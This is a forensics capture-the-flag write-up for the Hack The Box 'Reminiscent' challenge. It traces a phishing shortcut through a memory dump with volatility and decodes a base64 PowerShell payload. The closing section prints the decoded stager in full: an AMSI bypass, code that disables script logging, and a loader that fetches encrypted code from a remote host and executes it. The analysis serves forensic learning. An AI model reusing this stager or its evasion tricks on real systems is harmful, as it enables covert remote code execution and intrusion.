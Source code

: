 # [Reminiscent](https://app.hackthebox.com/challenges/Reminiscent) Writeup [HTB]
_Forensics_

## Introducing the challenge
In this challenge, I have to find the malware that some [B.Loodworm](https://forum.tip.it/topic/35909-bloodworm-virus/) guy sent via email to an unfortunate employee, through a `resume.zip` file. To do so, I have access to the memory dump of the machine.

I open `volatility` and all the possible cheatsheets (listed [here](../../utilities/tools.md#forensics)), and I'm ready to go!

## Analyzing the processes
First, I list all processes that were running when the screenshot was taken:
```sh
$ volatility -f flounder-pc-memdump.elf --profile=Win7SP1x64 pstree
Volatility Foundation Volatility Framework 2.6.1
Name                                                  Pid   PPid   Thds   Hnds Time
-------------------------------------------------- ------ ------ ------ ------ ----
 0xfffffa800169bb30:csrss.exe                         348    328      9    416 2017-10-04 18:04:29 UTC+0000
 0xfffffa8001f63b30:wininit.exe                       376    328      3     77 2017-10-04 18:04:29 UTC+0000
 [...]
 0xfffffa80006b7040:System                              4      0     83    477 2017-10-04 18:04:27 UTC+0000
. 0xfffffa8001a63b30:smss.exe                         272      4      2     30 2017-10-04 18:04:27 UTC+0000
 0xfffffa80020bb630:explorer.exe                     2044   2012     36    926 2017-10-04 18:04:41 UTC+0000
. 0xfffffa80022622e0:VBoxTray.exe                    1476   2044     13    146 2017-10-04 18:04:42 UTC+0000
. 0xfffffa80007e0b30:thunderbird.ex                  2812   2044     50    534 2017-10-04 18:06:24 UTC+0000
. 0xfffffa800224e060:powershell.exe                   496   2044     12    300 2017-10-04 18:06:58 UTC+0000
.. 0xfffffa8000839060:powershell.exe                 2752    496     20    396 2017-10-04 18:07:00 UTC+0000
```
Interestingly, the only processes that were executed after Thunderbird are two Powershells, PID 496 and 2752. I decide to keep an eye on them, and proceed to look at the files.

## Listing the files
Since the `resume.zip` file is most likely responsible for all this mess, I scan the dumped files to see if I can find it somewhere.
```sh
$ volatility -f flounder-pc-memdump.elf --profile=Win7SP1x64 filescan | grep resume
Volatility Foundation Volatility Framework 2.6.1
0x000000001e1f6200      1      0 R--r-- \Device\HarddiskVolume2\Users\user\Desktop\resume.pdf.lnk
0x000000001e8feb70      1      1 R--rw- \Device\HarddiskVolume2\Users\user\Desktop\resume.pdf.lnk
```
I didn't find the zip, but I have a link to a PDF! I use `volatility` yet again to dump it.
```sh
$ volatility -f flounder-pc-memdump.elf --profile=Win7SP1x64 dumpfiles -Q 0x000000001e1f6200 --name resume -D .
Volatility Foundation Volatility Framework 2.6.1
DataSectionObject 0x1e1f6200   None   \Device\HarddiskVolume2\Users\user\Desktop\resume.pdf.lnk
SharedCacheMap 0x1e1f6200   None   \Device\HarddiskVolume2\Users\user\Desktop\resume.pdf.lnk
```
According to `file`, this is actually a Windows shortcut:
```sh
$ file file.None.0xfffffa80022ac740.resume.pdf.lnk.dat
file.None.0xfffffa80022ac740.resume.pdf.lnk.dat: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has command line arguments, Icon number=1, Archive, ctime=Mon Aug  7 14:41:42 2017, mtime=Mon Aug  7 14:41:42 2017, atime=Fri Dec  9 01:34:22 2016, length=443392, window=hide
```

## Taking the shortcut!
Immediately, I run `strings` to take a deeper look to this mysterious file.
```sh
$ strings file.None.0xfffffa80022ac740.resume.pdf.lnk.dat 
/C:\
DKfp
Windows
DKfp*
System32
WINDOW~1
v1.0
KV}*
powershell.exe
K6}*
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
%SystemRoot%\system32\SHELL32.dll
1SPS
cABvAHcA[...]wBBAEEAPQA=
,&fbM
,&fbM
```
where `cABvAHcA[...]wBBAEEAPQA=` is a massive, almost 10 kB string, that I don't report here for the sake of simplicity.

Now, I'm no Windows expert, and I'm not sure how "MS Windows shortcuts" work. However, I'm pretty sure they don't randomly call Powershells here and there. Then, there is that huge, super suspicious string. I can smell the base 64 from here. I paste it into a decoder, and get this:
```
powershell -noP -sta -w 1 -enc JABHAHIA[...]ABJAEUAWAA=
```
where `JABHAHIA[...]ABJAEUAWAA=` is another suspiciously-base-64, 3.5 kB string. I decode it and get the malware code!
```
$GroUPPOLiCYSEttINGs = [rEF].ASseMBLY.GEtTypE('System.Management.Automation.Utils')."GEtFIE`ld"('cachedGroupPolicySettings', 'N'+'onPublic,Static').GETValUe($nulL);$GRouPPOlICySeTTiNgS['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging'] = 0;$GRouPPOLICYSEtTingS['ScriptB'+'lockLogging']['EnableScriptBlockInvocationLogging'] = 0;[Ref].AsSemBly.GeTTyPE('System.Management.Automation.AmsiUtils')|?{$_}|%{$_.GEtFieLd('amsiInitFailed','NonPublic,Static').SETVaLuE($NulL,$True)};[SysTem.NeT.SErVIcePOIntMAnAgER]::ExpEct100COnTinuE=0;$WC=NEW-OBjEcT SysTEM.NEt.WeBClIEnt;$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';$wC.HeaDerS.Add('User-Agent',$u);$Wc.PRoXy=[SysTeM.NET.WebRequEst]::DefaULtWeBPROXY;$wC.PRoXY.CREDeNtIaLS = [SYSTeM.NET.CreDEnTiaLCaChe]::DeFauLTNEtwOrkCredentiAlS;$K=[SYStEM.Text.ENCODIng]::ASCII.GEtBytEs('E1gMGdfT@eoN>x9{]2F7+bsOn4/SiQrw');$R={$D,$K=$ArgS;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.CounT])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-bxoR$S[($S[$I]+$S[$H])%256]}};$wc.HEAdErs.ADD("Cookie","session=MCahuQVfz0yM6VBe8fzV9t9jomo=");$ser='http://10.10.99.55:80';$t='/login/process.php';$flag='HTB{$_REDACTED_$}';$DatA=$WC.DoWNLoaDDATA($SeR+$t);$iv=$daTA[0..3];$DAta=$DaTa[4..$DAta.LenGTH];-JOIN[CHAr[]](& $R $datA ($IV+$K))|IEX
```
(Yes, the flag is here, too)
